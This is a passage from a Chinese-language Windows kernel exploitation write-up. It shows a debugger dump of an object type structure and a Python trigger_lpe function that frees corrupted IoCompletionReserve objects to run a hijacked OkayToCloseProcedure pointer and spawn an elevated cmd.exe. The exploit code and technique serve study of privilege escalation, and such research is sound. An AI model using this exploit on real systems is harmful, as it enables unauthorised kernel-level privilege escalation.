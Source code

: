 ```
      +0x004 ObjectTypeCode   : 0
      +0x008 InvalidAttributes : 0xb0
      +0x00c GenericMapping   : _GENERIC_MAPPING
      +0x01c ValidAccessMask  : 0xf0003
      +0x020 RetainAccess     : 0
      +0x024 PoolType         : 0 ( NonPagedPool )
      +0x028 DefaultPagedPoolCharge : 0
      +0x02c DefaultNonPagedPoolCharge : 0x5c
      +0x030 DumpProcedure    : (null)
      +0x034 OpenProcedure    : (null)
      +0x038 CloseProcedure   : (null)
      +0x03c DeleteProcedure  : (null)
      +0x040 ParseProcedure   : (null)
      +0x044 SecurityProcedure : 0x82cb02ac        long  nt!SeDefaultObjectMethod+0
      +0x048 QueryNameProcedure : (null)
      +0x04c OkayToCloseProcedure : (null)         &lt;--- OkayToCloseProcedure is offset 0x4c from 0x0
   +0x078 TypeLock         :
      +0x000 Locked           : 0y0
      +0x000 Waiting          : 0y0
      +0x000 Waking           : 0y0
      +0x000 MultipleShared   : 0y0
      +0x000 Shared           : 0y0000000000000000000000000000 (0)
      +0x000 Value            : 0
      +0x000 Ptr              : (null)
   +0x07c Key              : 0x6f436f49
   +0x080 CallbackList     :  [ 0x84fc80c0 - 0x84fc80c0 ]
      +0x000 Flink            : 0x84fc80c0 _LIST_ENTRY [ 0x84fc80c0 - 0x84fc80c0 ]
      +0x004 Blink            : 0x84fc80c0 _LIST_ENTRY [ 0x84fc80c0 - 0x84fc80c0 ]
```



这样，0x28 + 0x4c = 0x74便是我们的指针需要指向的位置。但是**OkayToCloseProcedure**是如何调用的呢？经过研究发现，这是一个注册的aexit handler。所以，为了触发代码的执行，我们只需要释放损坏的IoCompletionReserve。我们并不清楚句柄是与哪一个溢出块相关联，所以我们干脆全部释放它们。



```
def trigger_lpe():
    """
    This function frees the IoCompletionReserve objects and this triggers the
    registered aexit, which is our controlled pointer to OkayToCloseProcedure.
    """
    # free the corrupted chunk to trigger OkayToCloseProcedure
    for k, v in khandlesd.iteritems():
        kernel32.CloseHandle(v)
    os.system("cmd.exe")
```

最后，我们最终成功实现，如图所示：

[![](https://p3.ssl.qhimg.com/t0153a9cf9002a8449f.png)](https://p3.ssl.qhimg.com/t0153a9cf9002a8449f.png)
